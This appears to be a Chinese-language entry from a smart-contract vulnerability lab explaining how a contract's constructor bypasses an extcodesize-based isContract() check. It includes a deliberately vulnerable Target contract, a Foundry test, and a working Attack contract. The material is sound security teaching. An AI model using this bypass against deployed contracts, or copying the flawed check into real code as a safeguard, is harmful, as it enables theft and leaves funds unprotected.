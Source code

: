 # 绕过isContract()验证 
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**名称：** 绕过isContract()验证  
**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过判断是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法使用了EVM的‘extcodesize’汇编指令，来检查给定地址处的代码大小
        // 对于在构造过程中的合约，这个方法可能会返回0，因为在构造函数执行的末尾才会存储代码。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 表示当前合约本身是否是一个合约
    bool public isContract;

    // 用于存储当前合约的地址。
    address public addr;

    // 当Attack合约被创建时，构造函数会被触发。
    // 它接受一个目标合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递当前合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将当前合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 然而，由于构造函数中的isContract()检查的漏洞，这次调用实际上是成功的。
        Target(_target).protected();
    }
}
```  
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F273d7caf-d1ec-435a-b60a-ef1dc2698ca1%2FUntitled.png?table=block&id=164fb814-62c9-4308-b378-aba274e06594&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)